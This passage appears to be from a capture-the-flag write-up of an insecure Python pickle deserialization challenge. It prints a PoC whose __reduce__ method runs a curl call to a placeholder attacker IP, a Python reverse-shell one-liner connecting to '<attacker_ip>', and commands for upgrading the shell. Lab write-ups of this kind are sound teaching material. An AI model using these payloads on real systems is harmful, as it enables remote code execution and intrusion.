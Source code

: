 ### PoC:

```python
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...  
![31b80fbbf11c37b21fca33a323d9ba51.png](../_resources/31b80fbbf11c37b21fca33a323d9ba51.png)

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```
